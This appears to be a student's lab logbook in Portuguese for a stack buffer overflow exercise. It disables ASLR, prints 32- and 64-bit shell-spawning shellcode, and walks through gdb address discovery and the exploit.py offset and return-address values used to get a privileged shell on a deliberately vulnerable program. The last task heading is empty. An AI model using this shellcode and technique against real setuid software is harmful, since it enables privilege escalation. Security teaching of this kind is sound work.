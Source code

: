 # LOGBOOK5 - Buffer Overflow

## Setup

Antes de iniciarmos o guião da semana 5, devemos desligar algumas proteções do sistema operativo (para nos facilitar), tais como a randomização do espaço de endereços e a proibição ao nível da shell de ser executada por processos com Set-UID.

```
sudo sysctl -w kernel.randomize_va_space=0
sudo ln -sf /bin/zsh /bin/sh
```
## Task 1

Primeiramente, executamos o seguinte código :

```c
#include <stdio.h>
int main(){
	char*name[2];
	name[0] = "/bin/sh";
	name[1] = NULL;
	execve(name[0], name, NULL);
}
```

Reparamos que abriu uma shell na mesma pasta onde foi executado o programa.

Depois executamos o call_shellcode.c:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char shellcode[] =
#if __x86_64__"\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e""\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57""\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f""\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31""\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif;
int main(int argc, char**argv){
    char code[500];strcpy(code, shellcode); // Copy the shellcode to the stack
    int (*func)() = (int(*)())code;
    func();                 // Invoke the shellcode from the stack
    return 1;
}
```

Ao executar este ficheiro usando o `make`, reparamos que é criado 2 ficheiros `a32.out a64.out`. Quando executamos qualquer um deles, reparamos que é aberto um shell.

## Task 2

Após analisar o ficheiro stack.c, reparamos que a vulnerabilidade tratava-se do seguinte: a função strcpy é usada para copiar o conteúdo do parâmetro str para o array buffer. No entanto, a função strcpy não tem verificação para garantir que o tamanho da string (que pode ter até um máximo de 517) não exceda o tamanho do buffer (BUF_SIZE = 100). Se o comprimento da stringstr for maior que o tamanho do buffer, irá substituir a memória adjacente, levando a um comportamento inesperado, que neste caso podemos aproveitar para explorar a vulnerabilidade.

Também reparamos que executando o make, é criado vários ficheiro do género stack-Lx , onde x varia entre 1 e 4. A diferença entre estes ficheiros é o valor do BUF_SIZE.

![files](Images/files.png)

## Task 3

Primeiramente, criamos um ficheiro badfile e executamos o make para criar os ficheiros necessários para fazer debug,e executamos os seguintes comandos:

```
$ touch badfile 
$ gdb stack-L1-dbg 
...
gdb-peda$ b bof 
...
gdb-peda$ run 
...
gdb-peda$ next 
...
gdb-peda$ p $ebp # Obtemos o valor do ebp
$1 = (void *) 0xffffcaf8
gdb-peda$ p &buffer # Obtemos o endereço do início do buffer
$2 = (char (*)[100]) 0xffffca8c
```

![code1](Images/code1.png)
![code1](Images/code2.png)

Após obtermos os valores necessários, vamos usar o programa python para colocar conteúdo no nosso badfile, mas para tal temos de fazer alterações necessárias para funcionar:

Na variável shellcode vamos meter o valor shellcode de 32-bits que executa uma shell:
```py
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')
```

De seguida, alterou-se o valor do start para guardar o valor do shell code no fim da lista.

```py
start = 400
```

Foi calculado o novo endereço de retorno que aponta para o código do shell a ser executado.

```py
ret    = 0xffffcaf8 + 200
```

Usando os dois endereços obtidos durante o debug, determinou-se a localização do endereço de retorno em relação ao início do array (offset)

```py
offset = 0xffffcaf8 - 0xffffca8c + 4
```

Após executar o ficheiro ./exploit.py e ./stack-L1 conseguimos obter acesso a uma shell com permissões:

![shell](Images/shell.png)

## Task 4


